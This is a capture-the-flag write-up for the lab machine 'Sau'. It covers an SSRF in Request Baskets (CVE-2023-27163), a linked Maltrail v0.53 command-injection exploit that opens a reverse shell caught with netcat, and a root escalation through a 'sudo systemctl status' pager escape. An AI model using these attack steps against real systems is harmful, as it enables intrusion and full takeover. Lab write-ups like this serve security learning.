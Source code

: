 # Sau

<figure><img src="../../.gitbook/assets/Sau.png" alt=""><figcaption></figcaption></figure>

\`Sau\` is an Easy Difficulty Linux machine that features a \`Request Baskets\` instance that is vulnerable to Server-Side Request Forgery (SSRF) via \`\[CVE-2023-27163]\(https://nvd.nist.gov/vuln/detail/CVE-2023-27163)\`. Leveraging the vulnerability we are to gain access to a \`Maltrail\` instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as \`puma\`. A \`sudo\` misconfiguration is then exploited to gain a \`root\` shell.



lets start with nmap  :&#x20;

```
nmap -A 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 21:04 +03
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 25 Jun 2024 18:05:45 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 25 Jun 2024 18:05:14 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 25 Jun 2024 18:05:15 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=6/25%Time=667B06DA%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:14\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:15\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Tue,\x2025\x20Jun\x202024\x2018:05:45\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.32 seconds
```

so ports are open are 22,80,55555

if 80 filtered lets begin with 55555 page because has 200 ok response

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

lets create a basket

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

now it will appear like this with token: lBhANDWeEBEUE-UcF7erL6QYkcuzvr1ga0ZMrytVZi0a

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

here is the page after creation

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

lets add by this in menu bar click it

to add forward url

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

apply by this command

```
curl http://10.10.11.224:55555/8fn2c0t
```

```
┌─[✗]─[cybersoldier@parrot]─[~]
└──╼ $sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 36886
GET / HTTP/1.1
Host: 10.10.16.9:80
User-Agent: curl/8.8.0
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip
```

if we try the 80 filtered port we can notice its SSRF vulnerability

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

if we refresh the page&#x20;

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

we can notice **Maltrail (v0.53)**

lets now discover exploit or CVE for it

I found

{% embed url="https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87" %}

exploit

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit.git" %}

after reading the exploit in github url and make it reverse shell

```
┌─[cybersoldier@parrot]─[~]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 59224
$ ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins		 thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf	       sensor.py
README.md     html    misc		       server.py
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

reading user.txt flag

```
$ pwd
pwd
/opt/maltrail
$ cd ..
cd ..
$ ls
ls
maltrail
$ cd ..
cd ..
$ ls
ls
bin   data  etc   lib	 lib64	 lost+found  mnt  proc	run   srv  tmp	vagrant
boot  dev   home  lib32  libx32  media	     opt  root	sbin  sys  usr	var
$ cd home
cd home
$ ls
ls
puma
$ cd puma
cd puma
$ ls
ls
user.txt
$ cat user.txt
cat user.txt
b512bbf2ecc3887************
```

if we try sudo -l we found this

```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ 
```

this if you would like to read about vulnerability

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26604" %}

if hit ENTER then type !/bin/bash

we got the root

```
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/home/puma# 
```

then read root.txt flag

```
root@sau:/home/puma# cat /root/root.txt
cat /root/root.txt
f4d51f7a498c4b9c1**************
root@sau:/home/puma#
```
